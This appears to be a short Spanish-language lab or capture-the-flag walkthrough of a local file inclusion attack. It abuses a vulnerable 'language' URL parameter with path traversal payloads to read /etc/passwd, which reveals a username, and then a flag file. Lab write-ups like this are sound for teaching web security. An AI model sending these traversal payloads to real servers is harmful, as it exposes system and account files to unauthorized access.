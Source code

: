 # LFI: Path Traversal

La página web que vulneraremos es:

![Web.PNG](./assets/01-Primero/01-web.PNG)

* Podemos seleccionar un **lenguaje** para nuestra página web, aquí es donde la url usa un **párametro** `?languaje=<Archivo>.php`

---

Para leer el archivo `/etc/passwd` usaremos el siguiente payload `http://<IP>/index.php?language=/../../../../etc/passwd`

![passwd.PNG](./assets/01-Primero/02-passwd.PNG)

* El usuario es `barry`

---

Para leer el contenido del archivo `flag.txt` usaremos el siguiente payload `http://<IP>/index.php?language=/../../../../../../../../../usr/share/flags/flag.txt`

<p align="center">
    <img src="./assets/01-Primero/03-flag.PNG">
</p>